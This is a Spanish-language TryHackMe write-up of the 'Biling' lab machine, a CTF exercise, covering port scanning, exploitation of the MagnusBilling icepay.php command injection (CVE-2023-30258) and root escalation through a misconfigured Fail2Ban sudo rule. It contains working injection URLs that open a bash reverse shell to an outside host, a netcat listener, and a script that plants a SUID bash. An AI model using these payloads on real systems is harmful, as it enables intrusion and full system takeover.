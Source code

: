 ## Biling

### 1. Introducción

Se llevó a cabo un análisis de seguridad sobre una máquina accesible en la red interna de TryHackMe, con IP 10.10.154.92. El objetivo fue identificar vectores de ataque, explotar vulnerabilidades y obtener acceso privilegiado, documentando cada paso del proceso incluyendo intentos fallidos para futuras referencias.

---

### 2. Escaneo inicial

**Herramienta utilizada**: Nmap
**Comandos ejecutados**:
```
nmap -Pn -n -sS -p- --min-rate 5000 -oG nmap 10.10.154.92
nmap -sVC -p22,80,3306,5038 -oG os 10.10.154.92
```

**Resumen de resultados:**
```
22/tcp    open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp  open  mysql   MariaDB (acceso no autorizado)
5038/tcp  open  asterisk Asterisk Call Manager 2.10.6
```

---

### 3. Enumeración

**HTTP (puerto 80):**
- Navegación web reveló una instancia del sistema MagnusBilling en la ruta `/mbilling`.
- Inspección de scripts JavaScript y rutas web no reveló archivos sensibles.
- `robots.txt`  no contenían información útil.

**MySQL (3306):** Acceso denegado, sin banners útiles.
**5038 – Asterisk AMI:** Servicio identificado pero sin autenticación anónima permitida.
**Búsqueda de vulnerabilidades:**
- `searchsploit` no arrojó resultados relevantes.
- Búsqueda manual en Google mostró una vulnerabilidad crítica:
    - **CVE-2023-30258**: MagnusBilling posee inyección de comandos no autenticada en `icepay.php`
        - https://attackerkb.com/topics/DFUJhaM5dL/cve-2023-30258

**Vectores fallidos:**
- Fuzzing manual en directorios y endpoints de MagnusBilling sin resultados positivos.
- Uso de gobuster y wfuzz no encontró rutas sensibles adicionales.

---
### 4. Explotación
**Exploit funcional:**
Prueba:
```
http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep%203;ls%20a

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;sleep%2030;ls%20a

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash -c 'bash -i >& /dev/tcp/10.6.17.22/4444 0>&1'

http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash -c 'bash -i >& /dev/tcp/10.6.17.22/4444 0>&1';#
```
Exploit:
```
http://biling.thm/mbilling/lib/icepay/icepay.php?democ=/dev/null;bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/10.6.17.22/4444%200%3E%261';%23
```
**Shell inversa establecida:**
```
nc -lvnp 4444
```
**Mejora de TTY:**
```
Ctrl+Z
stty raw -echo && fg
script /dev/null -c bash
export TERM=xterm
reset
```

**Métodos fallidos de explotación:**
- Uso de payloads con `php-reverse-shell.php` sin éxito.
- Uso directo del módulo de Metasploit sin establecer sesión.

---
### 5. Escalada de privilegios
**Usuario inicial:** `asterisk`
**Evaluación de sudo:**
```
sudo -l
```
Resultado:
```
Defaults!/usr/bin/fail2ban-client !requiretty
```
**Restricciones:**
- No se podía escribir en `/etc/fail2ban` directamente (error de permisos).
- `nano` no permitía guardar cambios sin privilegios.

**Explotación exitosa mediante Fail2Ban:**  
Condiciones cumplidas:
- Se tenía permiso de escritura en `/etc/fail2ban/action.d`.
- Se podía reiniciar Fail2Ban mediante `sudo`.

**Procedimiento completo:**

Basado en esta escalamiento https://juggernaut-sec.com/fail2ban-lpe/
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/

cat > /tmp/script <<'EOF'
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script

cat > /tmp/fail2ban/action.d/demo.conf <<'EOF'
[Definition]
actionstart = /tmp/script
EOF

cat >> /tmp/fail2ban/jail.local <<'EOF'
[demo]
enabled = true
action = exploit
EOF

cat > /tmp/fail2ban/filter.d/demo.conf <<'EOF'
[Definition]
EOF

sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```
**Root shell obtenida con:**
```
/tmp/bash -p
```
**Intentos fallidos de escalada:**
- Uso directo de `fail2ban-client set sshd action /tmp/...` resultó en error de validación.
- Edición directa de `iptables-multiport.conf` falló por permisos en sed temporal.

---
### 6. Hallazgos clave
- Acceso inicial no autenticado mediante vulnerabilidad crítica en `icepay.php` (CVE-2023-30258).
- Configuración insegura de Fail2Ban permitió escalar a root sin password.
- Bit SUID en `/tmp/bash` permitió acceso permanente como root tras reinicio del servicio.
---
### 7. Pasos siguientes
- Validar presencia de otras configuraciones SUID en el sistema.
- Revisar logs de `/var/log/auth.log` y `/var/log/fail2ban.log` para rastrear actividad del atacante.
- Eliminar `/tmp/bash` y restaurar configuración original de Fail2Ban.
---
### 8. Conclusión
La máquina fue comprometida a través de una vulnerabilidad conocida en MagnusBilling. Una vez dentro, se aprovechó una configuración insegura del servicio Fail2Ban para escalar privilegios. Este caso demuestra cómo una mala configuración de servicios comunes, combinada con software desactualizado, puede derivar en una toma total del sistema. Se recomienda:
- Aplicar parches de seguridad en MagnusBilling.
- Restringir permisos de escritura en `/etc/fail2ban`.
- Auditar configuraciones sudo y servicios con privilegios elevados.